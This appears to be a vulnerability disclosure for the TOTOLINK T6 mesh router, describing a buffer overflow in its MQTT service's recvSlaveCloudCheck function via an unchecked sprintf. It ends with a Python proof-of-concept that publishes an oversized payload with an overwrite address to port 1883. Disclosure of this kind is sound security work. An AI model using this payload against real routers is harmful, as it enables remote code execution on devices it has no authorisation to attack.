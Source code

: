 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveCloudCheck`. The `s` buffer is 64 bytes, and the `sprintf` doesn't check for the length of input.

![](8/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](8/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * (0x40 - 9 + 20) + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s",
        "version":"123"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveCloudCheckStatus", mqtt_data)```




